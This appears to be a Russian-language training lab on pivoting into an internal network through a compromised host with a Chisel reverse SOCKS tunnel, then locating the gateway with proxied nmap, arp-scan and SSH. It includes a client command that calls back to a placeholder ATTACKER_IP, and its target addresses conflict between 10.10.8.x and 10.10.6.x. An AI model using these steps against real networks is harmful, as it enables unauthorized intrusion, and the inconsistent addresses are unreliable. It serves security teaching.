 
## Цель работы  
Освоить методы создания прокси-туннелей для доступа к защищенным сетевым сегментам и определения ключевых сетевых узлов (маршрутизаторов) во внутренней инфраструктуре.  

---

## Задачи работы  
- Организовать прокси-туннель через скомпрометированный хост (10.10.8.15) для доступа к внутренней сети.  
- Определить IP-адрес маршрутизатора (шлюза по умолчанию) в целевой подсети (10.10.8.0/24).  

---

## Теоретическая часть  

### 1. Прокси-туннелирование в пентестинге  
**Прокси-туннель** — метод перенаправления сетевого трафика через компрометированную систему для:  
- Обхода сетевых ограничений (фаерволы, ACL)  
- Сокрытия реального IP-адреса атакующего  
- Доступа к изолированным сетевым сегментам  

**Типы туннелей:**  
- **SOCKS-прокси (уровень приложений):**  
  - Позволяет проксировать TCP-соединения (HTTP, FTP, SMTP)  
  - Инструменты: `Chisel`, `SSH -D`, `proxychains`  
- **VPN-туннели (сетевой уровень):**  
  - Перенаправление всего трафика (TCP/IP)  
  - Инструменты: `pppd`, `OpenVPN`  

### 2. Идентификация сетевой инфраструктуры  
**Маршрутизатор (шлюз по умолчанию):**  
- Устройство, соединяющее разные сетевые сегменты  
- Его IP — точка входа/выхода для трафика подсети  

**Методы обнаружения:**  
1. Анализ таблицы маршрутизации:  
```bash
ip route show default
```
2. Просмотр ARP-кэша:  
```bash
arp -a | grep -i "gateway"
```
3. TTL-анализ через traceroute:  
```bash
traceroute 8.8.8.8
```

---

## Ход выполнения лабораторной работы  

### Шаг 1: Организация SOCKS-прокси через Chisel  
**Предпосылки:**  
- Доступ к хосту 10.10.8.15 через SSH/Meterpreter  

1. На атакующей машине (Kali):  
```bash
./chisel server -p 8080 --reverse
```
2. На цели (10.10.6.2):  
```bash
./chisel client ATTACKER_IP:8080 R:1080:socks
```
3. Настройка proxychains (`/etc/proxychains.conf`):  
```ini
socks5 127.0.0.1 1080
```

### Шаг 2: Обнаружение IP-адреса маршрутизатора  
1. Через прокси-туннель:  
```bash
proxychains nmap -sn 10.10.6.0/24
```
2. Анализ результатов:  
- Устройство с наименьшим TTL в traceroute  
- MAC-адрес с OUI производителя маршрутизаторов (MikroTik, Cisco)  
```bash
proxychains arp-scan 10.10.6.0/24
```
3. Подтверждение:  
```bash
proxychains curl ifconfig.me  # Внешний IP
proxychains ping 10.10.6.1    # Проверка доступности
```

### Шаг 3: Верификация через прямое подключение  
1. Использование обнаруженного IP (например, 10.10.8.1):  
```bash
proxychains ssh admin@10.10.8.1
```
2. Проверка таблицы маршрутизации на маршрутизаторе:  
```bash
show ip route
```

---

## Форма отчёта  
1. **Цель и задачи.**  
2. **Теория:** Принципы прокси-туннелирования и методы идентификации сетевых узлов.  
3. **Результаты:**  
   - Вывод `nmap -sn` с обнаруженными хостами  
   - Скриншот `arp-scan` с MAC-адресом маршрутизатора  
   - Подтверждающий вывод `traceroute`  
4. **Выводы:**  
   - Значение обнаруженного IP-адреса шлюза  
   - Оценка эффективности инструментов (Chisel vs SSH)  
   - Рекомендации по защите от туннелирования  

---

## Вопросы для самоконтроля  
1. Почему SOCKS-прокси эффективнее HTTP-прокси для пентеста?  
2. Как определить производителя устройства по MAC-адресу?  
3. Чем опасен доступ к маршрутизатору внутренней сети?  
4. Как обнаружить нелегитимные туннели в корпоративной сети?  
5. Почему `arp-scan` часто эффективнее `ping` для обнаружения хостов?  
